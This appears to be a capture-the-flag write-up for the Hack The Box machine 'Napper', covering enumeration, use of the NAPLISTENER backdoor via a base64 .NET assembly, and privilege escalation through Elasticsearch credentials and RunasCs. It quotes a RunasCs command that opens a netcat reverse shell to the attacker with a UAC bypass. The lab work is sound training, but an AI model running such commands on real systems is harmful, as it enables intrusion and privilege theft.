

# PORT SCAN
* **80** &#8594; HTTP (IIS)
* **443** &#8594; HTTPS
* **7680** &#8594; PANDO-PUB

   

# ENUMERATION & USER FLAG
The port 7680 is pretty uncommon and can be used (as standard) for **<u>Pando Media Public Distribution</u>** or **<u>WUDO</u>** (Windows Update Delivery Optimization). I think we will have more info about it just after we performed foothold.

Let's move on the HTTP and HTTPS, according to the nmap scan we have a subdomain `app.napper.htb`

The certificate show us the issuer which is another subdomain o the box called `ca.napper.htb`

Now the website is similar to a security blog (like github.io) build it with <u>Hugo</u>

All right time to explore, a good part of the blog is based on IIS management (SSL included) and the website itself is used as example

Cool the blog is splitted in half, basic authentication on IIS systems and high level understanding of Reverse Engineering.

While I was reading I run some instance of dirb and ffuf and we have a new subdomain `internal.napper.htb`

Here we have the basic authentication in action

Looking at the blog post there is one where used the Powershell to implement basic authentication

It works, we have access here and is the same blog but with a single articl called `**INTERNAL** Malware research notes`

Time to read, again! The article talk about the [Naplistener](https://www.darkreading.com/threat-intelligence/custom-naplistener-malware-network-based-detection-sleep) malware.

We have this in a code block

> This means that any web request to /ews/MsExgHealthCheckd/ that contains a base64-encoded .NET assembly in the sdafwe3rwe23 parameter will be loaded and executed in memory. It's worth noting that the binary runs in a separate process and it is not associated with the running IIS server directly.

Well that's what I do (as parameter I used `whoami` in base64)

We also have a LOG with all the discovery made by the team

Cool so what we know so far is that we need a `.NET assembly` and use it to get a shell, looking at some article online I found the listener's code and what is intersting is the bottom part where manage the parameter 

  

Now with some trial and error I need to accomplish the listener and trigger a reverse shell 

What I have tried was to usea [C# Rev Shell](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) and use `mcs` Command Line Utility in order to create a dll, encoded in base64 and use it as parameter on the POST request but nothing return back to us (same thing with the EXE extension). Something is missing I need more reasearch but I don't think I will find an *"how to trigger NAPLISTENER malware"* lol

I tried a slighty different approach I used this C# code which download a ps1 script containing the powershell reverse shell (base64 encoded edition) and execute it

The key point was the `Run()` class because of the (according to the image above) `assembly.CreateInstance(assembly.GetName().Name + ".Run")`. Cool, than everything goes how is supposed to downloading the powershell script and execute.

Finally my netcat get our reward

   

# PRIVILEGE ESCALATION
First thing that I have checked are the process that are running in the background and we have the [Elastic Search Service](https://www.elastic.co/elasticsearch/service)

Can make sense this service is the one to be abused since Elastic is the company that have discovered and analyzed the NAPLISTENER malware, the version is `8.8.0`

It doesn't appear to have some known vulnerability, inside the configuration directory of the application we have a yaml file with the port is used for `Elastic Software`

Time to use chisel in order to retrieve the content of the port 9200 and we need to deal with another **<u>Basic Authentication</u>** form, the default credentials for elastic seems to be <u>`elastic:changeme`</u>

I tried to run some hydra bruteforce while I was out for some NPC like things but no response at all, time to use winPEAS and this is interesting

Let's see what we have here and we have a `.env` file with the username and password of elastic

Now we are free to play with elastic :)
Thanks to god [hacktricks have a page just for that](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch)

> **<u>Elasticsearch</u>** is a versatile tool for searching, analyzing, and visualizing large volumes of data, particularly when that data is text-heavy or has a significant unstructured component. Its flexibility, scalability, and speed make it suitable for a broad range of applications across various industries

Now will be a good idea to tak the `a.exe` and try to do some RE, this is just intuition apparently everything inside the folder is used for elastisearch so maybe this executable can help us to retrieve something usefull. The executable appear to be written in GO so I installed [this extension](https://github.com/mooncat-greenpy/Ghidra_GolangAnalyzerExtension) for a better RE.

Inside the `main.main` we have the `genKey` function but doesn't seems to be usefull but using `strings` and some patience I found something like this 

So maybe is using an AES CFB encryption

I saw before that the `/_search` endpoint can gave us a blob with the seed of what it seems to be the `backup` user password

It seems it change after a few minutes, using Bard AI I successfully retrieved a GO script that can help me to retrieve the plaintext password given the blob and the seed (according to what we discovered before)

That's cool, now I need to figure out how to change user since there is no WinRM port. [RunasCs.exe](https://github.com/antonioCoco/RunasCs) is what we need and some timing for the password retrieval

Beautiful now let's see if we can get a shell somehow! Just upload netcat on the windows target machine and I used this line of code

`.\ras.exe backup [PASS] "C:\Users\ruben\Desktop\nc.exe 10.10.14.11 5555 -e cmd.exe" -t 8 --bypass-uac`

  

Cool thing now let's enumerate back and simply we are in the Administrator groups! Cool!

